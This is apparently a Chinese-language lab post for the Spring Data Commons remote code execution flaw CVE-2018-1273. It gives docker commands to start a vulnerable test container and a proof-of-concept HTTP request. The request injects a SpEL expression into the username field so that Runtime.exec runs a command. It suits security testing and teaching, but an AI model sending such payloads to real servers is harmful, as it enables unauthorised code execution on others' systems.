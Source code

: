 ```yaml
---
layout: post
title: "Spring Data Commons 代码执行漏洞(CVE-2018-1273)"
date: 2018-04-13 13:12:41 +0800
image: '/assets/img/'
description: 'Spring Data Commons 代码执行漏洞(CVE-2018-1273)'
main-class: 'hole'
color: '#B31917'
tags:
- Spring
- RCE
categories:
- Spring
twitter_text: 'Spring Data Commons 代码执行漏洞(CVE-2018-1273)环境'
introduction: 'Spring Data Commons 代码执行漏洞(CVE-2018-1273)环境'
---
```


## Spring Data Commons 代码执行漏洞(CVE-2018-1273)

### 漏洞信息

 - [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_spring_2
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_2
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

1. 访问 `http://127.0.0.1:8080/users`，测试服务是否启动成功

2. 发送如下数据包,执行命令为: `/bin/touch /tmp/vuln`

```http
POST /users?page=&size=5 HTTP/1.1
Host: 127.0.0.1:8080
Proxy-Connection: keep-alive
Content-Length: 138
Cache-Control: max-age=0
Origin: http://127.0.0.1:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1:8080/users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/touch /tmp/vuln")]=test&password=test&repeatedPassword=test
```

### 参考链接

- [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)
